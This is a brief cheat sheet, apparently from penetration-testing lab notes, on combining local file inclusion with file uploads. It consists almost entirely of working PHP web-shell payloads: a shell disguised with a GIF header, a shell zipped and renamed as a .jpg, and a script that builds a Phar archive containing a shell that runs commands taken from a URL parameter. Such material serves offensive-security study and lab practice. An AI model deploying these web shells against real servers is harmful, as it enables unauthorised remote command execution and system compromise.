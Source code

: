 ```yaml
---
title: LFI and File Uploads
---
```


## Crafting Malicious Image

```
Jerad Rodgers@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

## Zip Upload

```
Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

## Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```